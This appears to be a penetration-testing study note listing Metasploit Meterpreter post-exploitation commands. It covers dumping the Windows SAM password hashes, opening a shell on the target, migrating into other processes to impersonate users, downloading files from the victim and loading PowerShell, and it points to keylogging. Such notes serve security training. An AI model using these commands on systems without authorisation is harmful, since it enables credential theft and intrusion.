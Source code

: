 # Meterpreter

{% embed url="https://docs.rapid7.com/metasploit/manage-meterpreter-and-shell-sessions/" %}

{% embed url="https://www.offsec.com/metasploit-unleashed/about-meterpreter/" %}

### Meterpreter

#### Useful commands:

1. `?`&#x20;

* View a list of available commands

2. `help`

* Displays the help menu

3. `background`

* Sends the current Meterpreter session into the background, and returns to the _msf_ prompt
* Use the `session -i` command to get back to the Meterpreter session

4. `cat`, `cd`, `pwd`, `ls`

* Similar to the Linux command line

5. `hashdump`

* Dumps the contents of the _**SAM**_ database
* The Security Accounts Manager (SAM) is a database file in Windows that contains usernames and passwords

6. `shell`

* Presents a standard shell on the target system

7. `ps`

* List running processes

Eg. Find all processes running [`explorer.exe`](https://jarrettgxz-sec.gitbook.io/windows/general/explorer.exe)&#x20;

```sh
meterpreter> ps | grep "explorer.exe"
```

8. `migrate`

* Migrate to another process
* Useful for impersonating another user session

9. `download`

* To download a file from the remote machine
* Note the use of the double-slashes in the Windows path

```sh
meterpreter> download c:\\users\test\file.txt
```

10. `load`&#x20;

Eg. powershell

```sh
meterpreter> load powershell

meterpreter> help
powershell_shell
powershell_xxxx
...

meterpreter> powershell_shell
PS> 
```

### Keylogger

{% embed url="https://www.offsec.com/metasploit-unleashed/keylogging/" %}
